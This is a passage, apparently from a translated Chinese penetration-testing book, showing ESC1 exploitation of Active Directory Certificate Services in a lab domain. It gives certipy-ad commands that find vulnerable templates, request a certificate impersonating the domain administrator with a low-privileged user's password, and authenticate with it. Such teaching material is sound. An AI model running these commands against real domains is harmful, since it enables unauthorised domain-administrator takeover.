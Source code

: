 查询的结果如下：

![图 8.17 – LDAP 查询查找 ESC1 漏洞模板](img/B18964_08_17.jpg)

图 8.17 – LDAP 查询查找 ESC1 漏洞模板

现在，我们将验证 LDAP 查询的结果，为内建域管理员签发证书并使用该证书进行身份验证：

```
certipy-ad find -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.56.12 -vulnerable -stdout
certipy-ad req -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.56.12 -target 192.168.56.23 -ca 'ESSOS-CA' -template ESC1 -upn 'administrator@essos.local'
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

结果如下截图所示：

![图 8.18 – ESC1 的成功利用](img/B18964_08_18.jpg)

图 8.18 – ESC1 的成功利用
